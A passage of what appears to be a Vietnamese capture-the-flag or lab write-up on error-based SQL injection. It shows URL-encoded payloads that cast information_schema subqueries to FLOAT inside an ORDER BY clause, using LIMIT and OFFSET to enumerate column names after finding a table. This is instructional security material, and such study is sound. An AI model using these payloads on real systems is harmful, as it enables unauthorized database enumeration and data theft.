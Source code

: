 - Ta được tên bảng: `m3mbr35t4bl3`

![1](img/58/7.png)

- Tiếp tục tìm tên cột:

```sql
ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1)+AS+FLOAT)
```
- Ta được cột đầu tiên: `id`.

- Đến đây, ta cần sử dụng OFFSET để có thể filter vào đúng postion ta cần LIMIT để hiển thị các column còn lại:

```sql
ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1+OFFSET+1)+AS+FLOAT)
```

![1](img/58/8.png)
